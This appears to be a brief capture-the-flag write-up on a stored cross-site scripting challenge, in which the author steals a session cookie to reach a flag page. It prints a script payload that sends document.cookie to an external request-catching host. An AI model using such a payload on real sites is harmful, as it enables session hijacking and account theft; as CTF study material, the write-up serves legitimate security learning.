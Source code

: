 # Summary
For  this challenge we did our toes into XSS (cross site scripting), in this case it is a sotred cross site scripting, meaing we are attempting to embed our request (to marvin in this case) that contains a malicous package which will send a response to a location of our choosing, in this case grabbing the current cookie from the user will allow use to login into the page and access the flag page.


# Payload/Entrypoint
There are a number of ways in order to use XSS on this challenge for this I used a payload online with a malicious image tag
```
$writeup marvin_scoreboard http"<script>var i=new Image;i.src="https://challenge.free.beeceptor.com/%7Bdocument.cookie%7D;</script>
```

This payload sends the cookie to the beeceptor server (server hoster) which I can then access and use the cookie. Once we have the cookie we merely have to use it in our browser and access the flag webpage to grab the flag.
